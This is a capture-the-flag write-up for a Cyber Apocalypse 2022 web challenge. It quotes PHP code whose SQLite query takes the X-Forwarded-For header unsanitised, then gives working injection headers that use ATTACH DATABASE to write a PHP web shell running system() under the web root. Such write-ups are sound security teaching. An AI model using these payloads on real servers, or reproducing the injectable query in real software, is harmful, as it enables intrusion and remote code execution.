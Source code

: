 # Intergalactic Post - Cyber Apocalypse 2022

### Given Material
We have been provided with the source code of a web application working as a newsletter application. 
### Identifying the flaw
We can submit some dummy requests from the web app form to "subscribe" an email.

```JSON
{"POST":{"scheme":"http","host":"localhost:1337","filename":"/subscribe","remote":{"Address":"127.0.0.1:1337"}}}
```
And POST body:
```
email=my@email.com
```

Upon inspecting the code, the part that handles our request is the following:

```php
<?php
class SubscriberModel extends Model
{

    public function __construct()
    {
        parent::__construct();
    }

    public function getSubscriberIP(){
        if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
            return  $_SERVER["HTTP_X_FORWARDED_FOR"];
        }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
            return $_SERVER["REMOTE_ADDR"];
        }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
            return $_SERVER["HTTP_CLIENT_IP"];
        }
        return '';
    }
    
    public function subscribe($email)
    {
        $ip_address = $this->getSubscriberIP();
        return $this->database->subscribeUser($ip_address, $email);
    }
}
```
The given code that handles the database methods is also:

```php
<?php
class Database
{
    private static $database = null;

    public function __construct($file)
    {
        if (!file_exists($file))
        {
            file_put_contents($file, '');
        }
        $this->db = new SQLite3($file);
        $this->migrate();

        self::$database = $this;
    }

    public static function getDatabase(): Database
    {
        return self::$database;
    }

    public function migrate()
    {
        $this->db->query('
            CREATE TABLE IF NOT EXISTS `subscribers` (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                ip_address VARCHAR(255) NOT NULL,
                email VARCHAR(255) NOT NULL
            );
        ');
    }

    public function subscribeUser($ip_address, $email)
    {
        return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
    }
}
```

It seems that the email and ip address parameters are not sanitized properly hence we can inject SQL statements. 

### First (failed) attempt
At first, we tried to inject SQL statements at the email parameter but the following filter gets in the way.
```php
 public function store($router)
    {
        $email = $_POST['email'];

        if (empty($email) || !filter_var($email, FILTER_VALIDATE_EMAIL)) {
            header('Location: /?success=false&msg=Please submit a valild email address!');
            exit;
        }

        $subscriber = new SubscriberModel;
        $subscriber->subscribe($email);

        header('Location: /?success=true&msg=Email subscribed successfully!');
        exit;
    }
```
The FILTER_VALIDATE_EMAIL as a php built-in filter, uses the RFC 5321 standard which allows quoted strings and some special characters that could be useful in our injection. However the following working payloads were beyond the character limit the local-part of an email allows so injecting the email field lead to nowhere.

### Working Injection
The only field remaining to try to inject is the IP field. As we saw earlier in the code, the IP field gets filled with values from the php $_SERVER array. Those fields were not validated afterwards hence we can simpy place an HTTP header in our request that looks like the following and inject any given values in the IP field:

```
X-Forwarded-For: DUMMY_FIELD
```

### SQLite3 Injection + php = RCE
We can now execute SQL statements but we still need to read the flag under the /flag.txt path. The golden statement that worked a stepping stone was the following:

```sql
ATTACH DATABASE file_name AS database_name;
```

The statement associates the database file file_name with the current database connection under the logical database name database_name. If the database file file_name does not exist, the statement creates a new database file. We can attach a database with a dummy name and a php file extension under web root. The following header does exactly that and also creates a table for us to inject php code.

```
X-Forwarded-For: ','a');ATTACH DATABASE '/www/x.php' AS x;CREATE TABLE x.p (d text);
```

Finally another request with the following header writes the payload.
```
X-Forwarded-For: ','a');ATTACH DATABASE '/www/x.php' AS x;INSERT INTO x.p (d) VALUES ("<?php system('cat /flag*')?>");
```

Now we just have to visit /x.php with our browser to trigger our code.
![flagpoc](https://github.com/apostolides/ctf-writeups/blob/master/Cyber-Apocalypse-2022/Intergalactic_Post/flag.png)

Special thanks to [sealmove](https://github.com/sealmove/) for helping with this challenge.
